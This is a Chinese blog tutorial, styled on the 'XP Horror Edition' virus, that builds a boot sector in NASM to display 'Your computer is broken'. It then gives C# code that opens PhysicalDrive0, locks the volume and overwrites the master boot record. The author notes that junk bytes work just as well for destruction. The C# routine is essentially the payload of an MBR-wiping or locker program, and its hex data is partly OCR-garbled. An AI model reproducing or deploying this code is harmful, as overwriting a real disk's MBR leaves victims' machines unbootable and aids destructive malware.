 # 使用汇编生成MBR并使用C#修改

by ![Xbodw](../Resources/Xbodw.png)

该文章遵循 [Attribution-NonCommercial 4.0 International]()许可协议.

## 前言

之前我分享了一个使用[Csharp(简称C#,后文用此称)](https://learn.microsoft.com/zh-cn/dotnet/csharp/tour-of-csharp/)修改[MBR](https://baike.baidu.com/item/%E4%B8%BB%E5%BC%95%E5%AF%BC%E8%AE%B0%E5%BD%95/7612638)的方法,但是,MBR是由不同进制的字符组成的,我们想要让MBR~~变成
硬盘逻辑锁~~ 显示 我们想要的字符串该怎么办？
   
   修改MBR教程链接 [016281261](?id=016281261)

该操作极其危险,需要对电脑及其熟练的人才能操作,建议在虚拟机内运行,否则,后果自负!

## 开始之前

不知大家是否知道世界上的几大电脑病毒,其中比较恐怖的有 Windows XP horror Edition.用网上简洁一点的话说,该病毒涵盖了以下几个特征:
 1.伪装成XP升级包
 
 2.运行后改注册表
 
 2.运行后改[MBR](#前言)
 
 3.修改系统文件,常见的有 666.sys

 4.进度达`66%`的时候原本伪装的XP升级界面界面变红

 5.界面变红后出现几大恐怖节目

给大家看一下该病毒改完MBR后的效果图:

![XP Horror Edition的效果图](https://ts3.cn.mm.bing.net/th?id=OIP-C.OiD8YLDkDHFoGrBmT0D4SwHaEo)

这就是通过修改MBR实现的.想要改这样的MBR不是一件简单的事.

## 准备工作

前往 [NASM官网(2.16.01下载链接)](https://www.nasm.us/pub/nasm/releasebuilds/2.16.01/win64/nasm-2.16.01-installer-x64.exe) 下载NASM.
使用汇编语言这种底层语言修改MBR是比较简单的事情.

下载完之后打开安装程序,无脑点击Next 下一步即可,安装完成后创建一个空目录.

使用资源管理器打开刚才的空目录,在地址栏键入 `cmd` 并回车,打开命令提示符.

输入`nasm --version`查看版本号,确保nasm没有报错后进行下一步.

在这个空目录里新建MBR.asm,使用Notepad++等专业工具打开,在里面输入以下内容并保存.
```asm
    org 07c00h          ; 使其加载到7c00处
    mov ax, cs
    mov ds, ax
    mov es, ax
    call    DispStr         ; 调用显示字符串例程
    jmp $          ; 无限循环显示
    DispStr:
    mov ax, BootMessage
    mov bp, ax          ; ES:BP = 串地址
    mov cx, 16          ; CX = 串长度
    mov ax, 01301h      ; AH = 13,  AL = 01h
    mov bx, 000ch       ; 页号为0(BH = 0) 黑底红字(BL = 0Ch,高亮)
    mov dl, 0
    int 10h         ; 10h 号中断
    ret
BootMessage:        db  "Your computer is broken"
times   510-($-$$)   db  0   ; 填充剩下空间为512B
dw  0xaa55
```
保存后在打开的命令提示符内输入 `nasm MBR.asm -o MBR.bin`(可以不带 .bin扩展名)

随后在命令提示符内输入
```batch
echo= > boot.img
```
打开 [FloppyWriter](https://raw.githubusercontent.com/huangyingw/FloppyWriter/master/Release/FloppyWriter.exe)(需要先登录Github),点击 `Write FIle to Image`,选择刚才生成的MBR文件,然后会弹出第二个选择框,选择boot.img.

此时如果弹出 成功,表示操作成功.

随后我们可以打开Vmware WorkStation,选择任意虚拟机(创建虚拟机网上有教程,此处不再赘述),点击 "编辑虚拟机设置",


![添加硬件](https://img2.imgtp.com/2024/01/27/t3DmTfqI.png)

再点击"添加(A)",


![选择硬件类型](https://img2.imgtp.com/2024/01/27/CRvXhzMk.png)

选择”软盘驱动器"


![选择软盘加载方式](https://img2.imgtp.com/2024/01/27/wjmfvEjm.png)

再选择“使用软盘镜像文件",点击浏览,


![浏览boot.img](https://img2.imgtp.com/2024/01/27/VLyaOS3C.png)

选择boot.img镜像并点击确定,随后可以启动虚拟机查看文字效果.

![最终演示效果](https://img2.imgtp.com/2024/01/27/qAtJgI41.png)

上述代码由于字节过长,文字显示不全只能显示 "you computer is",需要把文字搞短一点点.使用MBR只能显示很短的文字,可以使用EFI显示文字.后续可能会出如何编写EFI显示文字的教程.

回到正题,我们已经生成了汇编ASM文件.接下来可以使用HexView工具查看MBR的Hex数据,也就是类似于这样开头的数据:

![MBR代码的Hex](https://img2.imgtp.com/2024/01/27/HMEP2ZQb.png)


由于HexView工具本身不支持复制MBR数据,所以我们只能截图并使用文字识别(注意识别出的文字切记要比对Hex原文,无需比对全部,比对一下里面不是`00`的地方即可.)

随后在`Visual Studio`中创建一个 Csharp ConsoleApp (控制台应用) 项目,我以ConsoleApp3为命名,且看`Main`函数的实现代码:
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Text.RegularExpressions;
using System.Threading.Tasks;

namespace ConsoleApp3
{
    internal class Program
    {
        static void Main(string[] args)
        {
            string hexCode = @"8C C8 8E D8 8E CO E8 02 00 00 ......"; //把你的识别出来的MBR码放进去

            Regex regex = new Regex("[0-9A-Fa-f]{2}");
            MatchCollection matches = regex.Matches(hexCode);

            byte[] scode = new byte[matches.Count];

            for (int i = 0; i < matches.Count; i++)
            {
                byte b = Convert.ToByte(matches[i].Value, 16);
                scode[i] = b;
            }
            string hexString = string.Join(" ", scode.Select(b => "0x" + b.ToString("X2")));
            Console.WriteLine(hexString); //打印转换后的MBR数组
            Console.ReadLine(); //保持窗口不关
        }
    }
}

```
输入完代码按下`Ctrl`+`Shift`+`S`组合键保存代码(此代码可以多次利用,可谓是~~摸鱼好帮手~~ 一劳永逸).此时如果你按下了`F5`,就会打开一个控制台窗口.

![输出效果](https://img2.imgtp.com/2024/01/27/d6DOZveR.png)


如果你看到的是这种类型的(0x开头的数字或字母),代表你的MBR没问题.


不对呀,直接在每个MBR前面加0x不就行了? 不不不,~~懒~~ 一劳永逸不是很好吗?


如果报错了,那么可能是你在文字识别MBR图片的时候某个地方出错了,建议再次检查.

复制输出的那一堆 `0x` 开头的字符(从头到尾)

接下来重点来了,本次修改MBR的方式有一些不同,之前的[016281261](?id=016281261)是直接破坏,而本次是修改,如果乱填MBR码,也可以达到破坏的效果.

话不多说上代码:
```csharp
static void WriteMBR()
{
    byte[] scode = new byte[]
    {
        0x8C,0xC8,0x8E,0xD8,0x8E,0xE8,0x02,0xB9,0x10,0x00, ...                                 
    }; //自己之前通过控制台生成的MBR码
    uint dwBytesReturned;
    byte[] pMBR = new byte[512]; //MBR正好为 512 个字节
    Array.Clear(pMBR, 0, pMBR.Length);

    Array.Copy(scode, pMBR, scode.Length);
    /* pMBR[510] = 0x55; */
    /* pMBR[511] = 0xaa; */  //这两句代码其实是没必要的,如果你仔细留意之前控制台程序打印的MBR,你会发现结尾是有 0x55和0xaa的,加不加都没有关系

    IntPtr hDevice = CreateFile("\\\\.\\PhysicalDrive0", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, IntPtr.Zero, OPEN_EXISTING, 0, IntPtr.Zero);
    if (hDevice == IntPtr.Zero || hDevice.ToInt32() == -1)
    {
                MessageBox.Show("CreateFile failed..."); //创建硬盘文件失败
                return;
    }

    DeviceIoControl(hDevice, FSCTL_LOCK_VOLUME, IntPtr.Zero, 0, IntPtr.Zero, 0, out dwBytesReturned, IntPtr.Zero);

    WriteFile(hDevice, pMBR, 512, out dwBytesReturned, IntPtr.Zero);
    DeviceIoControl(hDevice, FSCTL_UNLOCK_VOLUME, IntPtr.Zero, 0, IntPtr.Zero, 0, out dwBytesReturned, IntPtr.Zero);
}
```

好了,本文章就到这里.如果你对我的文章满意,可不可以给我点一个三连或者赞?






 
